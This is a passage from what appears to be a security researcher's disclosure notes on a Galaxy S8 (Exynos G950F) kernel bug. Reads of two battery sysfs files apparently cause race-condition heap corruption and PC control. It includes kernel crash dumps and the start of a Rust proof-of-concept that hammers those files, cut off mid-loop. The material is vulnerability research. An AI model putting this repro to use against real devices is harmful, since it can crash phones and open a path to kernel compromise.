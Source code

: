 ```
[<ffffffc0001f2e7c>] SyS_read+0x44/0x84
```

#### G950F (Exynos Galaxy S8) [G950FXXU4CRI5] (September 1, 2018)

Can crash by getting PC in the kernel. Probably a race condition heap corruption. Needs a groom.

(This PC crash is old, since it's corruption this is some old repro from an unknown version, probably April 2018 or so)

```
task: ffffffc85f672880 ti: ffffffc8521e4000 task.ti: ffffffc8521e4000
PC is at jopp_springboard_blr_x2+0x14/0x20
LR is at seq_read+0x15c/0x3b0
pc : [<ffffffc000c202b0>] lr : [<ffffffc00024a074>] pstate: a0000145
sp : ffffffc8521e7d20
x29: ffffffc8521e7d30 x28: ffffffc8521e7d90
x27: ffffffc029a9e640 x26: ffffffc84f10a000
x25: ffffffc8521e7ec8 x24: 00000072755fa348
x23: 0000000080000000 x22: 0000007282b8c3bc
x21: 0000000000000e71 x20: 0000000000000000
x19: ffffffc029a9e600 x18: 00000000000000a0
x17: 0000007282b8c3b4 x16: 00000000ff419000
x15: 000000727dc01b50 x14: 0000000000000000
x13: 000000000000001f x12: 00000072755fa1a8
x11: 00000072755fa1fc x10: 0000000000000001
x9 : ffffffc858cc5364 x8 : 0000000000000000
x7 : 0000000000000001 x6 : 0000000000000001
x5 : ffffffc000249f18 x4 : ffffffc000fcace8
x3 : 0000000000000000 x2 : ffffffc84f10a000
x1 : ffffffc8521e7d90 x0 : ffffffc029a9e600

PC: 0xffffffc000c20230:
0230  128001a1 17fec15d 128001a0 d2800015 17fec46e 128001b4 17fec62b 00000000
0250  01bc8a68 ffffffc0 d503201f a9bf4bf0 b85fc010 716f9e10 712eb61f 54000040
0270  deadc0de a8c14bf0 d61f0000 a9bf4bf0 b85fc030 716f9e10 712eb61f 54000040
0290  deadc0de a8c14bf0 d61f0020 a9bf4bf0 b85fc050 716f9e10 712eb61f 54000040
02b0  deadc0de a8c14bf0 d61f0040 a9bf4bf0 b85fc070 716f9e10 712eb61f 54000040
02d0  deadc0de a8c14bf0 d61f0060 a9bf4bf0 b85fc090 716f9e10 712eb61f 54000040
02f0  deadc0de a8c14bf0 d61f0080 a9bf4bf0 b85fc0b0 716f9e10 712eb61f 54000040
0310  deadc0de a8c14bf0 d61f00a0 a9bf4bf0 b85fc0d0 716f9e10 712eb61f 54000040
```

__PoC__

```rust
extern crate rand;

use std::fs::File;
use std::io::Read;

fn thrasher() {
    // These are the 2 files we want to fuzz
    let random_paths = [
        "/sys/devices/platform/battery/power_supply/battery/mst_switch_test",
        "/sys/devices/platform/battery/power_supply/battery/batt_wireless_firmware_update"
    ];

    // Buffer to read into
    let mut buf = [0x41u8; 8192];

    loop {
        // Pick a random file
        let file = &random_paths[rand::random::<usize>() % random_paths.len()];

```

[gamozo]: https://twitter.com/gamozolabs
[slimetree]: https://github.com/gamozolabs/slime_tree